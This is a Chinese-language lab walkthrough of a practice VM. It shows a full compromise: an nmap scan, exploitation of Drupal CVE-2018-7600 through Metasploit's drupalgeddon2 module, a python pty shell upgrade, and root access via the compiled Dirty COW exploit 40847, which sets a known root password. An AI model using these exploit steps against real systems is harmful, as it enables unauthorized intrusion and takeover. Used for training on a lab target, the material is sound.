








# CVE-2018-7600+脏牛

---

**实验环境**

`环境仅供参考`

- VMware® Workstation 15 Pro - 15.0.0 build-10134415
- win7
- centos7
- MSF5
- Nmap
- [靶机下载地址](https://mega.nz/#!aG4AAaDB!CBLRRYQsAhTOyPJqyjC0Blr-weMH9QMdYbPfMj0LGeM)
---


在导入到 VMware 后 发现是个登录界面，在确认靶机 IP段后使用 `nmap` 对目标网段进行扫描

`nmap -T5 -v -f -sS -Pn -p- 192.168.91.0/24`



访问80端口发现一个没用的静态页面，再访问1898端口，出现web页面



进行目录扫描，发现  `robots.txt`


使用用谷歌插件 `wappalyzer` 知道了这个web是用 `drupal7 cms`写的


访问信息配置页面 `http://192.168.91.134:1898/CHANGELOG.txt`



> 快进到 使用 CVE-2018-7600 版本命令执行漏洞

### CVE-2018-7600利用

进入msf，然后search搜索CVE-2018-7600


```
use exploit/unix/webapp/drupal_drupalgeddon2
set rhosts IP
set rport 1898
run
```


用python获取标准shell:
python shell
```
python -c 'import pty; pty.spawn("/bin/bash")'
```
### 脏牛提权的利用



去msf中查找对应的exp
```
searchsploit dirty

cp /usr/share/exploitdb/exploits/linux/local/40847.cpp /root/1.cpp

# 进入msf upload 1.cpp

g++ -Wall -pedantic -O2 -std=c++11 -pthread -o 40847 1.cpp -lutil
./40847
```


获取目标 root 密码

ssh重新连接，用户为root，密码为 `dirtyCowFun`